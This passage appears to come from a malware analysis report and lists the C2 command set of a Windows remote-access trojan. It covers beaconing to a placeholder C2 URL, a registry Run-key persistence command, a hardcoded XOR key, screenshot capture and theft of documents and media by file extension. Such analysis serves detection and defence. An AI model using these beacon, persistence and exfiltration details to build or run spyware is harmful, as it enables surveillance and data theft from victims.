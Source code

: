 

Command
Description


ref:
Send beacon to the C2 server:
http://[C2 URL]?ref=id=%s&type=hello&direction=send


cmd:
Execute Windows commands and save the result to the %APPDATA%\s5gRAEs70xTHkAdUjl_DY1f.dat file after encrypting with a one-byte XOR key


down:
Download file from the remote server


up:
Upload file


state:
Upload log file (s5gRAEs70xTHkAdUjl_DY1fD.dat)


regstart:
Copy current malware to the ​​CSIDL_COMMON_DOCUMENTS folder and execute command to register file to run registry:
“reg add HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v a2McCq /t REG_SZ /d %s /f”


cleartemp:
Remove files from folder “%APPDATA%\s5gRAEs70xTHkAdUjl_DY1fD”


updir:
Archive directory and upload it. Archive is XOR encoded using the same key used when creating the identification value: ‘YFXAWSAEAXee12D4’


init:
Collect files with following extensions from the paths CSIDL_DESKTOP, CSIDL_PERSONAL(CSIDL_MYDOCUMENTS), CSIDL_MYMUSIC, CSIDL_MYVIDEO. Downloads and upload them to C2 server:
jpg|jpeg|png|gif|bmp|hwp|doc|docx|xls|xlsx|xlsm|ppt|pptx|pdf|txt|mp3|amr|m4a|ogg|aac|wav|wma|3gpp|eml|lnk|zip|rar|egg|alz|7z|vcf|3gp


scap:
Take a screenshot, save it to the folder “%appdata%\s5gRAEs70xTHkAdUjl_DY1fD” in an archived format. The file to store the screenshot has an ‘e_‘ prefix and 10 randomly generated characters as a filename. When uploading the screenshot file, it uses ‘wrpdwRwsFEse’ as the filename


run:
Run Windows commands with ShellExecuteW API


chdec:
Download an encrypted file and decrypt it via CryptUnprotectData API
